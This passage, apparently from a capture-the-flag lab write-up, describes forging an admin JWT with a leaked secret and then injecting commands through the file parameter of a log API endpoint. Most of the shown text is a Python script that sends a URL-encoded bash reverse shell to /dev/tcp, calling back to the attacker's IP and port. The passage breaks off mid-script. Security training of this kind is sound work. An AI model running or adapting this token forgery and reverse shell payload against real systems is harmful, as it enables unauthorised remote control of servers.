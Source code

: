     ![](screenshots/priv-route.png)

And finally, This lead to commnad injection by creating jwt token with admin's username from `/log` endpoint.

![](screenshots/command-injection.png)


Reverse shell script
```py
import json
import jwt
import re
import requests as r
import sys

ip = '10.10.14.42'
port = 4141
secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
token = {"auth-token": jwt.encode({"name": "theadmin", "email": "admin@admin.com"},
                                         secret,
                                         algorithm="HS256")}
injection = f'%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F{ip}%2F{port}+0%3E%261%22' #sys.argv[1]
rspn = r.get(f'http://10.10.11.120:3000/api/logs?file=command;{injection}', headers=token)

try:
```